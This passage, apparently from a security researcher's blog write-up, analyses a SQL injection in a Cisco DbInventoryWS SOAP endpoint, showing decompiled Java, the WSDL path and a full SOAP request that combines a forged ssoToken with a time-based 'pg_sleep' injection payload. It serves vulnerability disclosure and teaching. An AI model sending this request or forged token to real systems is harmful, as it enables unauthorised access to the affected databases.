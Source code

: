 ```java
/*      */       
/* 1085 */       rs = SQLLoader.execute(stmt);
```

<p class="cn" markdown="1">On line *[1079]* we can see a prepared sql statement is being created in an unsafe way using our injected `sortSqlSuffix` variable. Then on line *[1085]* the sql injection is actually triggered!</p>

<p class="cn" markdown="1">*Side note: This bug was a result of a design flaw and patterned numerous times where the developer(s) made the assumption that since the queries where parameterized, they were safe from sql injection. Further searches of this pattern resulted in over 100 separate sql injection vulnerabilities alone.*</p>

<p class="cn" markdown="1">The next step was to discover the exact SOAP parameters needed to trigger this code path. The `WebContext` annotation gives us a url pattern that will reveal the [wsdl](https://en.wikipedia.org/wiki/Web_Services_Description_Language) path to be `https://<target>/DbInventoryWSService/DbInventoryWS?wsdl`</p>

<p class="cn" markdown="1">For reference, here is the `WebContext` annotation.</p>

```java
/*      */ @WebContext(contextRoot = "/DbInventoryWSService", urlPattern = "/DbInventoryWS")
```

{% include image.html
            img="assets/images/busting-ciscos-beans-hardcoding-your-way-to-hell/wsdl.png"
            title="Revealing the getVmHostData method service descriptor"
            caption="Revealing the getVmHostData method service descriptor"
            style="width:60%;height:60%" %}

<p class="cn" markdown="1">Combining the first vulnerability we could send the following request that populates the properties in the `dbFilter` to the `/DbInventoryWSService/DbInventoryWS` SOAP endpoint and trigger the SQL Injection.</p>

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ep="http://ep.san.jaxws.dcbu.cisco.com/">
    <SOAP-ENV:Header xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
        <m:ssoToken xmlns:m="http://ep.jaxws.dcbu.cisco.com/">1337.9999999999999.PxU+ahyOPP9L22+K4u1+6g==.hax</m:ssoToken>
    </SOAP-ENV:Header>
    <soapenv:Body>
        <ep:getVmHostData>
            <arg0>
                <sortField>vcluster</sortField>
                <sortType>;select pg_sleep(10);--</sortType>
            </arg0>
            <arg1></arg1>
            <arg2></arg2>
            <arg3></arg3>
        </ep:getVmHostData>
    </soapenv:Body>
</soapenv:Envelope>
```

